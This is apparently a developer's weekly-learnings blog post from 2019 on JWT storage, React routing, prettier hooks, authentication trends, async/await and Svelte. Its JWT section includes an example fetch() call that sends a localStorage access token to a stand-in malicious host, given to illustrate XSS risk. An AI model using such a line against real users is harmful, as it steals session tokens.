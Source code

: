 ```yaml
---
title: Weekly Learnings 23rd of May
description: Weekly learnings for the 23rd of May 2019
updatedAt: May 23, 2019
img: https://images.unsplash.com/photo-1584697964400-2af6a2f6204c?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1634&q=60
alt: Weekly learnings
tags:
  - javascript
  - learnings
  - web-dev
author:
  name: David Yu
  bio: I love to code
  img: /_nuxt/assets/content/davidthrone.jpg
---
```


## Storing JWT tokens in localStorage

Storing JWT tokens in `localStorage` is common but it is considered bad practice since it opens you up to exploitation if an XSS attack can be conducted. The token can be accessed if the attacker can execute malicious Javascript on your machine something like this.

```js
fetch('http://somemaliciousendpoint.com', {
  method: 'GET',
  headers: {
    Authorization: `Bearer ${localStorage.getItem('accessToken')}`
  }
})
```

## Dynamic navigation in React

React is like the Microsoft for frontend developers. It simply isn't developer friendly and the library `react-router-dom` which allows us to build SPAs is no exception. There isn't any clear definitive way to dynamically route with it. However the two ways I think are good.

If you have wrapped your app with `<BrowserRouter></BrowserRouter>` component then the `history` object will automatically be passed to all your pages (navigatable components) and you can call `props.history.push('/route-i-want-to-go-to)` or for other components you will have to wrap them in the `withRouter` higher order component to pass the `history` object as a `prop`

If you use `<HashRouter></HashRouter>` component then you can navigate with `location.hash = 'route-i-want-to-go-to`

## A better way to format your project

```sh
yarn add prettier --dev --exact
yarn add pretty-quick husky --dev
```

Add this to your package.json

```js
{ "husky": { "hooks": { "pre-commit": "pretty-quick --staged" } } }
```

Now prettier will format only changed files when you `git-commit`

## The future of authentication

It has always been a pain point for developers to integrate authentication in their apps. Not only that but it has security issues e.g. password reuse and its annoying to enter usernames/passwords to authenticate. Introducing two very exciting developments

- **One tap sign on** by Google signs the user in through one click. Presumably the user still needs to maintain a Google account and they are already authed with their browser. There are a lot of requirements for this one but thus far it provides the best user and developer experience as an auth strategy.

- **webauthn** This one is the most exciting and even if this isn't the exact spec that gets widely used the idea should be what we are heading towards in the future. The idea is that we use biometrics like fingerprints and facial recognition to login to a website. We already can do this for our apps but now we are going to do it for websites.

## Async/await

This syntax

```js
try {
  const response = await someAsyncCallThatReturnsAPromise()
  const response1 = await someAsyncCallThatReturnsAPromise1()
  const response2 = await someAsyncCallThatReturnsAPromise2()
} catch (err) {
  console.error("Shouldn't have failed")
}
```

has become the new standard for writing async applications due it is synchronous like nature that makes it easier for developers to reason with. However one annoying thing that we would have to do is wrap the calls in an async function.

```js{1,7}
;(async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
    const response1 = await someAsyncCallThatReturnsAPromise1()
    const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch (err) {
    console.error("Shouldn't have failed")
  }
})()
```

In order for that code to compile we had to wrap that in an IIFE with the async tag. This is because async/await functions always return a promise and to properly call them we also have to await them

```js{1}
await (async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
    const response1 = await someAsyncCallThatReturnsAPromise1()
    const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch (err) {
    console.error("Shouldn't have failed")
  }
})()
```

Now the parent function has to do something similar. I like this approach because we are explicit about things. Although forgetting to await has caused a lot of bugs modern IDEs should tell you if a function returns a promise or not.

## Svelte

Svelte looks really exciting and I look forward to developing a small real world application with it or build on top of their example. It reminds me of Ruby. Although it appears a lot of magic is going on and it abstracts away a lot of things it improves developer experience but in the past these sorts of languages have never gained momentum, e.g. pug and CoffeeScript. HTML, JS and CSS has seem to always win out in the end which is quite ominous for svelte. I think at the end the big tech companies are the ones that sway the industry if they don't adopt svelte then it won't ever reach critical mass. Therefore it is unlikely it will ever be able to compete with React in terms of industry adoption. Even Vue with its massive popularity still hasn't been widely adopted in the industry except for China.

## React + Apollo + Prisma

Still dislike React in terms of developer experience. I just don't have time and energy to detail for the low level things like updating the dam cache. Prisma is cool gives us free CRUD, pagination and filtering but I can see it struggling when we start to build real world applications due to its unopinionated nature like Express. This is fine for large companies with massive dev teams like I have said before but for the majority of companies and dev teams this wouldn't work for them.

## Misc stuff

- Insomnia is a nice replacement for Postman
- The difference between function `helloworld() {}` and `helloworld = () => {}` is that the first one will automatically hoist the function up so you can use it anywhere
- Ngrok can allow your local dev server to be accessible in the cloud but it is very slow
- Chrome has a lazy attribute for images now e.g. `<img loading="lazy">`
- We should use `Sets` more because they are faster and you can access them by value
